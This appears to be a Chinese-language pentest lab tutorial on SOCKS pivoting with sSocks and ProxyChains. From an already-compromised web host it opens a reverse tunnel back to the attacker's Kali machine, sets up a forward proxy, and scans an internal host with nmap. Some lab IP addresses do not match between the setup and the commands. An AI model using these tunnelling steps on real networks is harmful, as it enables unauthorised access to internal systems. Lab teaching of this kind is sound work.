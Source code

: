 代理协议：SOCKS4/5
代理服务端：可以使用代理服务程序如ssocks，也可以是MSF模块开启代理，或CS一键开启代理服务。
代理客户端软件：SocksCap Proxifier ProxyChains(linux)等。
目的：公网代理公网跳板机，使得配置 代理ip:端口 后，可通过跳板机访问内网的ip。
^

已知黑客kali主机C的IP：192.168.0.115
公网web主机A unbantu：192.168.0.144 ，其内网IP：10.10.10.129，有一个web服务/test.php
内网数据主机B：10.10.10.128 ，有一个web服务/test.php
已知已经获取了A的shell，现在要渗透获取B的shell。
![image-20211126135623062](https://image.3001.net/images/20211126/1637924059_61a0bcdb3a742d24d3320.png!small)


### ssocks

sSocks是一个socks代理工具套装，可用来开启socks代理服务

下载连接：http\://sourceforge.net/projects/ssocks

web服务器和kali都需要安装这款工具才能使用

下载之后进行编译，可以选择先下载到kali编译之后上传到web服务器，也可以直接在web服务器下载编译

```
./configure && make
```

![image-20211126143548825](https://image.3001.net/images/20211126/1637924070_61a0bce652c2cc97d3d20.png!small)

src目录中存放了编译好的文件

![image-20211126143706129](https://image.3001.net/images/20211126/1637924071_61a0bce73213dedab2011.png!small)

#### 反向代理

将远程计算机作为socks代理服务端，反弹回本地，方便内网的渗透测试

#### 1.建立隧道

kali端：

```
./rcsocks -l 1088 -p 1080 -vv

-vv 获取详细信息
等待远程Socks5服务器访问本地1080端口，创建端口1080与本地端口1088的连接通道，将本地的1088端口的流量转发到1080端口
```

![image-20211126145248593](https://image.3001.net/images/20211126/1637924071_61a0bce7f27cc2a1664a8.png!small)

web服务器端：

```
./rssocks -vv -s 192.168.179.128:1080
#接收192.168.179.128:1080端口的流量
```

输入命令后通道就建立完毕了

#### 2.开启代理

proxychains代理链是Linux下一款代理设置工具，kali中默认安装，ubuntu需要使用命令`apt-get install proxychains`安装

kali端修改配置文件：

```
/etc/proxychains.conf
```

注释socks4添加socks5（注意是socks5 127.0.0.1 1088下图有误）

![image-20211126145926459](https://image.3001.net/images/20211126/1637924072_61a0bce89ebe66bd0f364.png!small)

测试

```
proxychains ssh 127.0.0.1
proxychains curl http://ww.facebook.com
```

输入密码连接后，成功连接ssh，查看本机ip

![image-20211126152824274](https://image.3001.net/images/20211126/1637924073_61a0bce9311d57adf948f.png!small)

![image-20211126152726640](https://image.3001.net/images/20211126/1637924073_61a0bce9d42440974877b.png!small)

使用firefox

```
proxychains firefox 10.0.0.2
```

![image-20211126153020846](https://image.3001.net/images/20211126/1637924075_61a0bceb6af87eb8b0125.png!small)

我这边是经过了多次测试才成功，可以先试一下ssh再curl，由于Ssocks不稳定，所以不建议使用

![image-20211126155235382](https://image.3001.net/images/20211126/1637924076_61a0bceca50f603aecab1.png!small)

#### 正向代理

web服务器如下命令创建代理并监听192.168.179.147（自己的IP）

```
./ssocksd --bind 192.168.179.147 --port 6020
```

在攻击主机编辑proxychains代理配置文件，添加代理配置信息：socks5 192.168.179.147 6020

```
vi /etc/proxychains.conf
```

执行如下命令，连接内网服务器，查看ip得知代理成功。

```
proxychains ssh 127.0.0.1
```

#### 扫描内网

用kali里边的nmap扫描

```
proxychains nmap -Pn -sT 10.0.0.2
```

![image-20211126162949849](https://image.3001.net/images/20211126/1637924077_61a0bced9b776a68a958c.png!small)

